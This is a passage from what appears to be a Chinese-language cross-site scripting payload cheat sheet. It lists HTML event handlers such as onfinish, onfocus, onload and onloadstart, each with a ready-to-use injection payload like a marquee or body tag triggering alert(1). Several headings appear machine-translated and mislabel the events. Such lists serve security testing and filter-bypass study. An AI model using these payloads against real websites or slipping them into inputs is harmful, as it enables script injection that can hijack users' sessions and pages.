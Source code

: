 #### **onfinish**

字幕完成时触发

```
<marquee width=1 loop=1 onfinish=alert(1)>XSS</marquee>
```

#### **Onfocus 和 onfocusin**

当元素有焦点时触发

```
<a id=x tabindex=1 onfocus=alert(1)></a>
```

#### **onhashchange**

哈希改变时触发

```
<body onhashchange="print()">
```

#### **加载**

加载元素时触发

```
<body onload=alert(1)>
```

#### **上传数据**

加载第一帧时触发

```
<audio onloadeddata=alert(1)><source src="audio.wav" type="audio/wav"></audio>
```

加载元数据时触发

```
<audio autoplay onloadedmetadata=alert(1)> <source src="audio.wav" type="audio/wav"></audio>
```

#### **已下载**

当元素完成加载时激发

```
<image src=image.png onloadend=alert(1)>
```

#### **onloadstart**

当元素开始加载时发生

```
<image src=image.png onloadstart=alert(1)>
```
